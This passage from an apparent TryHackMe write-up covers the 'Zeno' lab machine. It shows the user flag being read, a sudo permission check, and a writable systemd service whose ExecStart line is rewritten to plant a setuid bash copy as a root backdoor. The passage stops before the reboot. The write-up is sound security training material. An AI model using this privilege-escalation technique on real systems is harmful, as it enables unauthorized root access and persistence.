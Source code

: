 ## User flag

Now we can read the user flag located in `edward`'s home directory:

~~~
[edward@zeno ~]$ ls
user.txt
[edward@zeno ~]$ cat user.txt 
THM{070cab2c9dc622e5d25c0709f6cb0510}
~~~

User flag: `THM{070cab2c9dc622e5d25c0709f6cb0510}`

## Going root

Now we need to gain root access in order to obtain the root flag. I ran `sudo -l` to check my sudo permissions:

~~~
[edward@zeno ~]$ sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
~~~

As you can see, we can run `/usr/sbin/reboot` with sudo and no password. We can't directly use this permission to switch to root, but as you can probably remember, we have write access to `/etc/systemd/system/zeno-monitoring.service` which is a config file for rebooting, or shutting down, or starting a machine.

There is a part in this file which specifies a command or a file to be executed with the name of `ExecStart=`. We have two ways now. The first one is to modify that part, to copy the root flag to edward's home directory.

The second one is to copy the bash binary to our home directory and mark it as executable with setuid and when we run it with sudo, we'll have a backdoor. I'm gonna use the second one to gain root access. I used `vim` to modify it. This is the content of `/etc/systemd/system/zeno-monitoring.service` after applying the changes:

~~~
[edward@zeno ~]$ vim /etc/systemd/system/zeno-monitoring.service
[edward@zeno ~]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "cp /bin/bash /home/edward/rshell; chmod +xs /home/edward/rshell"

[Install]
WantedBy=multi-user.targe
~~~
